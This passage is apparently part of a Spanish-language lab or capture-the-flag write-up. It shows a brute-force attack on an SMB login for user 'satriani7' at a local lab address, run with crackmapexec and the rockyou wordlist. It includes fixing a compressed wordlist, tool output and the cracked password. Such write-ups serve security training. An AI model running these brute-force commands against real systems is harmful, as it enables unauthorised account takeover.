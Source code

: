 ### Ataque de fuerza bruta SMB
Ahora al identificar varios usuarios, usaremos el usuario `satriani7` para llevar a cabo un ataque de fuerza bruta empleando crackmapexec:

```bash
crackmapexec smb 172.17.0.2 -u 'satriani7' -p /usr/share/wordlists/rockyou.txt
```

**Nota:** Si no funciona y arroja este error:
```
SMB         172.17.0.2      445    SAMBASERVER      [*] Windows 6.1 Build 0 (name:SAMBASERVER) (domain:SAMBASERVER) (signing:False) (SMBv1:False)
SMB         172.17.0.2      445    SAMBASERVER      [-] SAMBASERVER\satriani7:/usr/share/wordlists/rockyou.txt STATUS_LOGON_FAILURE
```

Muy probablemente sea que nuestro rockyou.txt sigue comprimido en nuestra máquina Kali, así que comprobaremos eso:

```bash
ls -lh /usr/share/wordlists/rockyou.txt
```

Si no encontramos nada entonces efectivamente está comprimido:
```bash
ls -lh /usr/share/wordlists/ | grep rockyou
```

Si vemos:
```
-rw-r--r-- 1 root root 51M May 12  2023 rockyou.txt.gz
```

Significa que tenemos que descomprimirlo para poderlo usar:
```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

Comprobamos nuevamente:
```bash
ls -lh /usr/share/wordlists/rockyou.txt
# -rw-r--r-- 1 root root 134M May 12  2023 /usr/share/wordlists/rockyou.txt
```

Ahora podremos usar el comando y obtendremos:

```
SMB         172.17.0.2      445    SAMBASERVER      [-] SAMBASERVER\satriani7:0123456789 STATUS_LOGON_FAILURE 
SMB         172.17.0.2      445    SAMBASERVER      [-] SAMBASERVER\satriani7:school STATUS_LOGON_FAILURE 
SMB         172.17.0.2      445    SAMBASERVER      [-] SAMBASERVER\satriani7:barcelona STATUS_LOGON_FAILURE 
SMB         172.17.0.2      445    SAMBASERVER      [-] SAMBASERVER\satriani7:august STATUS_LOGON_FAILURE 
SMB         172.17.0.2      445    SAMBASERVER      [-] SAMBASERVER\satriani7:orlando STATUS_LOGON_FAILURE 
SMB         172.17.0.2      445    SAMBASERVER      [-] SAMBASERVER\satriani7:samuel STATUS_LOGON_FAILURE 
SMB         172.17.0.2      445    SAMBASERVER      [-] SAMBASERVER\satriani7:cameron STATUS_LOGON_FAILURE 
SMB         172.17.0.2      445    SAMBASERVER      [-] SAMBASERVER\satriani7:slipknot STATUS_LOGON_FAILURE 
SMB         172.17.0.2      445    SAMBASERVER      [-] SAMBASERVER\satriani7:cutiepie STATUS_LOGON_FAILURE 
SMB         172.17.0.2      445    SAMBASERVER      [-] SAMBASERVER\satriani7:monkey1 STATUS_LOGON_FAILURE 
SMB         172.17.0.2      445    SAMBASERVER      [+] SAMBASERVER\satriani7:50cent 
```
